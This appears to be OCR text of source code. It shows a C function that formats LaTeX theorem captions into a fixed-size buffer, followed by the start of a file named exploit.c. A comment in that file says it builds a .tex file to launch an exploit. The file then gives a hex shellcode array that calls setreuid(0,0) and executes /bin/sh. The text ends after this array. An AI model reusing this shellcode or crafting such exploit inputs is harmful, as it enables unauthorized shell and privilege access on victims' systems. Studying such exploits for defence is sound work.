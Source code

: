     char *
    expandTheorem(int i, char *option)
    /**************************************************************************
         purpose: retrieves and expands a \newtheorem into a string
    **************************************************************************/
    {
        char s[128], *num;
        int ithm;

        if (i<0 || i>=iNewTheoremCount)
            return strdup("");

        incrementCounter(NewTheorems[i].numbered_like);
        ithm = getCounter(NewTheorems[i].numbered_like);

        if (NewTheorems[i].within) {
            num = FormatUnitNumber(NewTheorems[i].within);
            if (option)
                snprintf(s,128,"%s %s.%d (%s)", NewTheorems[i].caption, num, ithm, option);
            else
                snprintf(s,128,"%s %s.%d", NewTheorems[i].caption, num, ithm);
            free(num);
        } else {
            if (option)
                snprintf(s,128,"%s %d (%s)", NewTheorems[i].caption, ithm, option);
            else
                snprintf(s,128,"%s %d", NewTheorems[i].caption, ithm);
        }

        return strdup(s);
    }

    void
    resetTheoremCounter(char *unit)
    /**************************************************************************
         purpose: resets theorem counters based on unit
    **************************************************************************/
    {
        int i;

        for (i=0; i<iNewTheoremCount; i++) {
            if (strequal(unit,NewTheorems[i].within))
                setCounter(NewTheorems[i].numbered_like, 0);
        }
    }

exploit.c
---------

    /* The below file has been creeated for prepearing the .tex file which will be helpful in launching the exploit. */
    //Global Variables
    char values[] = {
       //Shell Code responsible for the exploit
       0x31, 0xc0, 0xb0, 0x46, 0x31, 0xdb, 0x31, 0xc9, 0xcd, 0x80, 0xeb, 0x16, 0x5b, 0x31, 0xc0, 0x88, 0x43, 0x07, 0x89, 0x5b, 0x08, 0x89, 0x43, 0x0c, 0xb0, 0x0b, 0x8d, 0x4b, 0x08, 0x8d, 0x53, 0x0c, 0xcd, 0x80, 0xe8, 0xe5, 0xff, 0xff, 0xff, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68
    } ;
